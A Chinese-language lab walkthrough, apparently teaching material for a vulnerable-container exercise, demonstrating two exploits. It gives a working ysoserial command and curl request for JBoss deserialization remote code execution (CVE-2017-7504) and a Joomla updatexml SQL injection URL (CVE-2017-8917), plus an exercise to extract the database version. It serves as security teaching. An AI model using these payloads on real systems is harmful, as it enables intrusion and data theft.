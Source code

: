 # CVE-2017-7504 Java Deserialization
JBoss 4.x JBossMQ JMS 反序列化漏洞

Red Hat JBoss Application Server 是⼀款基于JavaEE的开源应⽤服务器。JBoss AS 4.x及之前版本 中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java⽂件存在反 序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

1.该漏洞出现在 /jbossmq-httpil/HTTPServerILServlet 请求中，本次实验借助 ysoserial 的 CommonsCollections5 利⽤链来利用该漏洞。你可以从 [1] 下载 ysoserial-all.jar ，也可以直接使用仓库中的 ysoserial-all.jar 。此处需要大家有 Java环境[2]。
```
   java -jar ysoserial-all.jar CommonsCollections5 "touch /tmp/success" > poc.ser
```
2.发送漏洞利用
我们将poc.ser⽂件内容作为POST Body发送到目标靶机
```
curl http://your-ip:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @poc.ser
```
执⾏docker-compose exec jboss bash进⼊容器，可⻅/tmp/success已成功创建。

# CVE-2017-8917 SQL Injection
## Joomla CVE-2017-8917 SQL注⼊
Joomla! in the real (online) world Joomla! is used all over the world to power millions of websites of all shapes and sizes. Joomla! can be used for: 
• Corporate websites or portals, intranets and extranets 
• Small business websites 
• Online magazines, newspapers, and publications 
• E-commerce and online reservations 
• Government, non-profit and organisational websites 
• Community-based, school and church websites or portals 
• Personal or family homepages ...

1.漏洞点（这里的path为Joomla的网址）
```
http://path/index.php? option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,co ncat(1,user()),1)
```
![[Pasted image 20240117152031.png]]此处简单解释，Mysql API updatexml 负责修改查询到的内容。updatexml 要求第二个参数是符合 xpath语法的字符串，如果不满足要求，则会报错，并且将查询结果放在报错信息。详情请参考 [3]。
最后有⼀个小作业，如果想看到当前mysql的使用版本，怎么做？
[1]https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
[2]https://www.oracle.com/sg/java/technologies/downloads/
[3]https://xz.aliyun.com/t/253#toc-1